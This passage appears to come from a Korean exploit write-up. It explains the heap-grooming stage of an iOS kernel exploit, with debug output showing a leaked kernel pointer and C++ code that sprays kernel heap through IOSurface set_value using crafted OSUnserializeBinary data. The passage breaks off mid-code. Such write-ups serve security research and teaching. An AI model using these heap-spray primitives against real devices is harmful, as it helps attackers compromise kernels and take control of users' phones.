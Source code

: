 ```cpp
    INFO("spray(port=0x%x)'s msgdata_kptr = 0x%llx\n", spray, kmsgdata_kptr);
    // getchar();
    //
    #endif
```

```cpp
[*] spray(port=0x1c03)'s msgdata_kptr = 0xffffffe02cff8048
```

## 본격적인 힙 구성 시작

```cpp
    // ----------- heap stage 1 setup -----------//
    
    INFO("Doing stage 1 heap setup\n");
```

## 1. IOSurface를 활용한 82MB 메모리영역 할당

IOSurface는 그래픽 버퍼의 처리 및 계산을 하기 위한 용도로 사용되는 커널 드라이버이다. 해당 커널 드라이버와 통신하기 위해 UserClient를 얻으면, 그 뒤로는 커널에 힙을 할당시키거나 스프레이하는데 유용하게 쓰인다.

여기서 우리는 IOSurace에서 제공하는 메소드인 `IOSurfaceRootUserClient::set_value` 를 이용하여 82M 크기의 빈 데이터를 적재시킨다.

```cpp
 int IOSurface_empty_kalloc(uint32_t size, uint32_t kalloc_key) {
    uint32_t capacity = size / 16;
    
    if (capacity > 0x00ffffff) {
        printf("[-][IOSurface] Size too big for OSUnserializeBinary\n");
        return KERN_FAILURE;
    }
    
    size_t args_size = sizeof(struct IOSurfaceValueArgs) + 9 * 4;
    
    struct IOSurfaceValueArgs *args = calloc(1, args_size);
    args->surface_id = IOSurface_id;
    
    int i = 0;
    args->xml[i++] = kOSSerializeBinarySignature;                            //<kOSSerializeBinarySignature />
    args->xml[i++] = kOSSerializeArray | 2 | kOSSerializeEndCollection;      //<array capacity="2">
    args->xml[i++] = kOSSerializeDictionary | capacity;                      //<dict capacity="capacity">
    args->xml[i++] = kOSSerializeSymbol | 4;                                 //<sym len="4">
    args->xml[i++] = 0x00aabbcc;                                             //\xaa\xbb\xcc</sym>
    args->xml[i++] = kOSSerializeBoolean | kOSSerializeEndCollection;        //<false/></dict>
    args->xml[i++] = kOSSerializeSymbol | 5 | kOSSerializeEndCollection;     //<sym len="5">
    args->xml[i++] = kalloc_key;                                             //key</sym></array>
    args->xml[i++] = 0;

/*
    <kOSSerializeBinarySignature />
    <kOSSerializeArray>2</kOSSerializeArray>
    <kOSSerializeDictionary capacity=${capacity}>
        <kOSSerializeSymbol length=4>
            0x00aabbcc?
        </kOSSerializeSymbol>
        <kOSSerializeBoolean>false</kOSSerializeBoolean>
    </kOSSerializeDictionary>
    <kOSSerializeSymbol length=5>
        ${kalloc_key}
    </kOSSerializeSymbol>
    0 // Null-terminate
```